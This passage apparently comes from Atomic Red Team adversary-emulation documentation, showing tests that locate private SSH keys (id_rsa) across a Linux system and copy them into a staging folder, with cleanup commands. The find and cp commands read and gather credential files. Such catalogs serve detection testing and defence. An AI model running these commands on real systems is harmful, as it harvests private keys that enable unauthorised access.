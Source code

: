 
```sh
find #{search_path} -name id_rsa 2>/dev/null >> #{output_file}
exit 0
```

#### Cleanup Commands:
```sh
rm #{output_file}
```





<br/>
<br/>

## Atomic Test #3 - Copy Private SSH Keys with CP
Copy private SSH keys on a Linux system to a staging folder using the `cp` command.

**Supported Platforms:** Linux


**auto_generated_guid:** 7c247dc7-5128-4643-907b-73a76d9135c3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| search_path | Path where to start searching from. | path | /|
| output_folder | Output folder containing copies of SSH private key files | path | /tmp/art-staging|


#### Attack Commands: Run with `sh`! 


```sh
mkdir #{output_folder}
find #{search_path} -name id_rsa 2>/dev/null -exec cp --parents {} #{output_folder} \;
exit 0
```

#### Cleanup Commands:
```sh
rm -rf #{output_folder}
```





<br/>
<br/>

## Atomic Test #4 - Copy Private SSH Keys with CP (freebsd)
Copy private SSH keys on a FreeBSD system to a staging folder using the `cp` command.
